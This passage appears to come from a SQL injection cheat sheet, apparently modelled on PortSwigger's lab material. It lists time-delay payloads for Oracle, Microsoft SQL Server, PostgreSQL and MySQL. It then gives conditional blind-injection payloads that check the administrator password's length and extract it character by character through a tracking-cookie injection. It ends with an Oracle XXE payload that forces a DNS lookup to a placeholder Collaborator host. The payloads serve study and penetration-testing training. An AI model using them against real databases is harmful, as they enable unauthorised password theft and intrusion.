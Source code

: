 Microsoft

`WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT pg_sleep(10)`

`|| pg_sleep(10)--`

MySQL

`SELECT SLEEP(10)`

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`

Microsoft

`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
`|| (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END)`


; can be used URL-encoded (%3B) at the start of the injected string in order to close the first string and let the second one to run.
`'%3BSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

`;SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users`

`;SELECT CASE WHEN (username='administrator' AND LENGTH (password)=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`;SELECT TrackingId FROM TrackingIdTable WHERE TrackingId = '6XBUFagmsb8Sxv1z';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle

The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  
`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  
  
